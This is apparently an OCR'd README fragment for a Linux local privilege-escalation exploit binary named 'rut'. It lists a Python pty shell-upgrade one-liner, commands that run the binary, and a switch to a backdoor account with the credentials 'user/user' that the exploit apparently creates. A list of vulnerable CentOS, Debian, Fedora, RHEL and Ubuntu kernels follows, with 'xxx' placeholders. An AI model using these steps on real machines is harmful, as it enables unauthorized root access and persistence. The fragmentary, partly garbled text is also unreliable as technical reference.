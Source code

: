 $ python -c 'import pty;pty.spawn("/bin/sh")'
$ chmod +x rut
$ ./rut

if success
$ su user
( user&pass = <b>user</b> )



    CentOS 8/Stream (4.18.0-80.el8.x86_64 ~ xxx)
    CentOS 7 (4.20.11-1.el7.x86_64, 5.4.179-1.el7.x86_64, 5.9.6-1.el7.x86_64)
    Debian 11 (5.10.0-8-amd64 ~ xxx)
    Fedora 33 (5.8.15-301.fc33.x86_64 ~ xxx)
    Manjaro 18 (xxx ~ xxx)
    RHEL 8 (4.18.0-80.el8.x86_64 ~ xxx)
    Ubuntu 17 (4.10.0-19-generic ~ xxx)
    Ubuntu 18 (xxx ~ xxx)
    Ubuntu 19 (5.0.0-38-generic ~ xxx)
    Ubuntu 20 (xxx ~ xxx)
